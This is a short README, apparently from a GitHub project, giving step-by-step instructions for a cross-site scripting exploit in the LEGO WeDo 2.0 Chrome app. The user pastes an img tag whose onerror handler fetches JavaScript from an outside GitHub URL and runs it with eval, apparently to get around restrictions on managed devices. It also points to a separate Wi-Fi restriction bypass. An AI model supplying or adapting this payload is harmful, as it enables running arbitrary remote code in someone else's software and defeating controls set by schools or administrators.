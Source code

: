 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### How to use:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Then, create a new project.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Blobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* That's it!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
